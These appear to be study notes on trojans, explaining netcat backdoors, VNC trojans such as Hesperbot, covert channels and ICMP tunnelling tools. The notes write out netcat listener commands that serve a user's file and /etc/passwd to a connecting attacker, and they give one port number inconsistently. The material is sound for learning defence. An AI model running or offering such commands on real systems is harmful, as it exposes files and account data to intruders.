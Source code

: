 
#### NetCat Backdoor
- Provides a backdoor command prompt nc -l -p 4444 < ~/myfile 
- Netcat Setup up a listener on TCP port 4444
- A hacker uses netcat to make connection to the listener:
	- `nc <vitim IP 4444`
- When netcat detects the connection, it sends the file myfile from the user's home directory to the attacker

#### TROJAN SCEARNIO
- What does the following command do:
	- `nc -l -u -p5555 < /etc/passwd`
- Ans: Netcat setup a back door listener on UDP port 55555. When a client connects to the port, it will exfiltrate the /etc/passwd file, sending it to the client

#### VNC TROJAN
- Starts a VNC server daemon in the target system
- VNC is considered a legitimage remote control utility
- Attacker connects to the target using any VNC viewer
- Because VNC is commonly used by sysadmins for routine server administration, it is hard to tell if the connection is legitimate of from VNC trojan

#### VNC TROJAN EXAMPLE - HESPERBOT
- A banking Trojan with common trojan feature including
	- Keystroke logging
	- Capturing screenshots and video
	- Configuring remote proxies
- Creates a hidden VNC server for the attacker to connect to the target remotely
- VNC does not log the user off the way RDP does
- The attacker can connect to the target computer while a user is working


#### OVERT and COVERT Channels
1. Overt Channels
	1. Legitimates communication channels used by programs
2. Covert Channels
	1. Used to transport data in unintended ways
	1. Typically done through "tunneling" (hiding) one protocol inside another
	1. Used to evade detection
	1. Some Trojan clients use covert channels to send instructions to the Trojan Server 
	1. Can also be used for command and control communications.

#### ICMP Tunneling
- Uses ICMP echo request and reply to carry a payload and silently access or control a target computer
- Example Tools:
	- Icmpsend
	- Loki
	- icmp.sh
	- Ping Tunnel
	- Ping Tower
